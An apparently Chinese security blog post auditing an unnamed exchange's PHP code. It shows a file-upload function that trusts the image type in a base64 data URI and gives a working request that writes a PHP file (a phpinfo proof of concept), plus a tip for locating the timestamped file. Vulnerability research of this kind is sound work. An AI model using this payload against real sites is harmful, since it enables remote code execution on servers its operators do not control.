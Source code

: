 ```yaml
---
title: "某交易所RCE"
date: 2020-10-25T17:28:10+08:00
draft: false
tags: ['交易所']
categories: ['代码审计']
---
```


# 某交易所RCE

## 漏洞文件

Application/Home/Controller/UserController.class.php
<!--more-->



## 漏洞代码

```perl
 public function base64_image_content($base64_image_content, $path)
    {
        //匹配出图片的格式
        if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $base64_image_content, $result)) {
            $type     = $result[2];
            $new_file = $path."/".date('Ymd', time())."/";
            if (!file_exists($new_file)) {
                //检查是否有该文件夹，如果没有就创建，并给予最高权限
                mkdir($new_file, 0700);
            }
            $new_file = $new_file.time().".{$type}";
            if (file_put_contents($new_file, base64_decode(str_replace($result[1], '', $base64_image_content)))) {
                //return '/'.$new_file;
                return time().'.'.$type.'';
            } else {
                return false;
            }
        } else {
            return false;
        }
    }
```


## 漏洞分析


传参 base64_image_content 和path变量，对传入的base64_image_content进行正则匹配，也就是让我们传一个base64形式的图片，和路径
如data:image/png;base64,xxx，把$result[2]的值赋给变量type。也就是/png这个的内容。生成一个以年月日命名的文件夹。生成一个时间戳的变量赋给new_file。然后对base64后的进行解码，写入文件。代码没判断传入的type头，所以可传入一个php文件




## 漏洞利用


Payload:

```perl
Pc/User/base64_image_content/?base64_image_content=data:image/php;base64,PD9waHAgcGhwaW5mbygpOw==&path=./
```


实战中发现不回显文件夹及文件名，可利用Burp发送Payload，查看返回包的时间戳，然后进行转换即可




